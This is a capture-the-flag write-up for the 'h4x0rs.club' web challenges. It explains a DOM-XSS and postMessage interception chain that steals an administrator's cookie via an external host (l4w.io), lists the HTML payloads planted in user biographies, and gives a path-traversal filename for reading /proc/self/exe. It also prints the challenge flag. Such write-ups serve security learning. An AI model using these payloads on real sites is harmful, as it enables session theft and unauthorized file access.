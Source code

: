# h4x0rs.club part 2

## https://h4x0rs.club/game/
```
Get document .cookie of the administartor.

h4x0rs.club

backend_www got backup at /var/www/html.tar.gz

Hint: Get open-redirect first, lead admin to the w0rld!
```

Upload [exploit.html](exploit.html) and [alert.js](alert.js) to `l4w.io` for example.

Create 2 users: `blah1` && `blah2`

Root cause:

There is DOM-XSS at `client.js` when setting `title` on `badges` function. CSP contains `strict-dynamic`, so you can just simply inject `'><script>...</script>`

To do it, take a look at the backend side, they will send a message to `top` not `parent` . so we can inject our evil iframe in the middle.

![evil postmessage](h4x0rs.club.2.png)

### blah1
Set biography as the following:
```
<a href='//l4w.io/exploit.html' id=report-btn>
```

### blah2
Set biography as the following:
```
<a href='/game/?msg=<iframe name=game_server src=/game/user.php/blah1%23report></iframe>' id=report-btn></a>
```

`<iframe>` with a local src is allowed by XSS Auditor. So using open-redirect for 2 various reason.

Then report `blah2` user along with `#report`

## Flag
`flag{postman_1n_the_middl3}`

# h4x0rs.club part 3

You can get the binary by abusing `badges` action with filename: `../../../../../../proc/self/exe`

I really like my idea behind this one. Pwn the binary with full mitigations shipped. 

Hopefully someone can write about it :(

## Other writeups
https://gist.github.com/paul-axe/869919d4f2ea84dea4bf57e48dda82ed
https://github.com/lbherrera/writeups/tree/master/0ctf_quals-2018/h4x0rs.club

